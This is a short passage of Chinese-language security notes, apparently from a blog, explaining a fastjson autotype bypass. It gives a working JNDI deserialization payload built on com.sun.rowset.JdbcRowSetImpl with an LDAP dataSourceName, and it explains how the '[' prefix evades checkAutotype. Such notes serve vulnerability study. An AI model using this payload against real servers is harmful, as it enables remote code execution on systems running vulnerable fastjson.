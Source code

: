 ![image-20230619180428246](img/image-20230619180428246.png)



**Bypass**

**前提：需要开启autotype**

构造如下payload，具体为啥这么构造没有细跟，反正跟`[`有关

```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl”[{,"dataSourceName":"ldap://localhost:9999/a","autoCommit":true}"
```

首先是`[com.sun.rowset.JdbcRowSetImpl`，通过这个方式可以过checkAutotype检测。

其次是`[{,"dataSourceName`，这里的`[{`主要目的是通过fastjson的自动检测，实际上就是对token进行控制，这里如果是`[`的话就会让token变为14从而通过之后的检测。

https://blog.csdn.net/qq_36869808/article/details/123201615



### fastjson<=1.2.47
